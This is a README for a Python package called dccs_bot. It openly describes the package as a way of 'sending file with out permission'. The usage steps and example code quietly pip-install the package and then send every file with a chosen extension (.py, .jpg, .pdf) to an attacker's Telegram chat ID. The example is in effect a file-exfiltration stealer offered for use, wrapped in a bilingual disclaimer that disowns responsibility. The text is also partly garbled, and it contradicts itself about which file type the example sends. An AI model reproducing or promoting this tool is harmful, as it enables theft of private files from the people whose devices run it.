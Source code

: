 # dccs_bot



## Note! This bot now of if you need it then contact me 




dccs_bot is a Python package for sending file with out permission 
## Installation

dccs_bot can be installed using pip:

`pip install dccs_bot`


## bot client

1. go to telegram

2. search ` @team_dccs_bot `

3. go to bot id 

4. click START 

## Usage

To use dccs_bot, you will need to import the package:

`from dccs_bot import bot`

Next, you will need to provide a chat ID:

`id = your telegram chat_id`

Next, you will need to provide a extension

`Extension like ( .py .jpg .pdf etc.. )`

Finally, you can use the bot:

`bot(id, ".py")`

## Example

Here is an example of how to use dccs_bot:

```python
try:
   from dccs_bot import bot
except ModuleNotFoundError:
   os.system('pip install dccs_bot')

id = 12345678
ex = ".jpg"
bot(id, ex)

```

This will create a bot with the given chat ID and will respond to messages with a .py file.


## Warning:

DCCS_bot is potentially harmful to mobile data and is not responsible for any harm caused to people. Use at your own risk.

DCCS_bot মোবাইল ডেটার জন্য সম্ভাব্য ক্ষতিকারক এবং মানুষের কোনো ক্ষতির জন্য আমরা দায়ী নয়। আপনার নিজের ঝুঁকিতে ব্যবহার করুন।
